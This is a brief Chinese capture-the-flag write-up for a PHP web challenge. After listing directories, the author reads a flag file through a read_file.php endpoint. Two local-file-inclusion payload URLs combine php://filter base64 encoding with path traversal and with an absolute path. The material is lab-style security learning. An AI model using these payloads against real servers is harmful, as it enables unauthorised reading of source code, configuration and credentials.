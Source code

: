 访问`read_file.php`，得到  

![image-20191117212728303](img/image-20191117212728303.png)

访问`no_flag_here.php`  ，构造参数进入根目录  

![image-20191117203840679](img/image-20191117203840679.png)

然而！emmm这个scandir怎么获取这个flag文件内容啊！！！

> 看了大师傅的WriteUP，发现PHP还可以这么读取文件...（下面 

构造`file=php://filter/read=convert.base64-encode/resource=`+绝对路径

http://139.9.212.218:39009/read_file.php?file=php://filter/read=convert.base64-encode/resource=../../../flag04ad59.php

或者

http://139.9.212.218:39009/read_file.php?file=php://filter/read=convert.base64-encode/resource=/flag04ad59.php
